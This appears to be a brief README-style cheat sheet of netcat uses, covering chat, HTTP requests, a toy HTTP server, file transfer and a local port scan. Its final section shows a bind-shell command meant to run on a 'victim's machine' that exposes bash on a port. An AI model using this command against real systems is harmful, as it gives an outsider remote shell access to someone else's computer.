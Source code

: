netcat
======

Neat things you can do with netcat (`nc`)!

Create a chat
-------------

Listen on a port (this is the "server"):

```
nc -l 8888
```

Connect a client:

```
nc 127.0.0.1 8888
```

Try typing in either window. You're chatting between the client and server!

Send an HTTP request
--------------------

```
echo -ne "GET / HTTP/1.0\n\n" | nc google.com 80
```

Create an HTTP Server
---------------------

Instead of _sending_ a request, _listen_ for one and send a response:

```
echo -e "HTTP/1.1 200 OK\n\n <h1>$(hostname)<h1>" | nc -l 8888
```

Then head on over to [http://localhost:8888]([http://localhost:8888/)!

Send a file
-----------

Listen on a port to receive file ("server"):

```
nc -l 8888 > sink.txt
```

Client to send the file:

```
nc 127.0.0.1 8888 < source.txt
```

Port scan
---------

Scan all ports between 20-100 to see what's going on:

```
nc -z 127.0.0.1 20-100
```

Bind Shell
----------

This is really bad!

On a victim's machine, run a listener that forwards requests to `bash`:

```
# note that the '-p' flag should be omitted on macOS
nc -lp 8888 -e "/bin/bash"
```

Open a connection:

```
nc <victim's host> 8888
```

Now you've opened a bind shell to the victim's machine.

Newer versions of netcat don't let you forward requests using `-e` anymore, due to the obvious security risk.
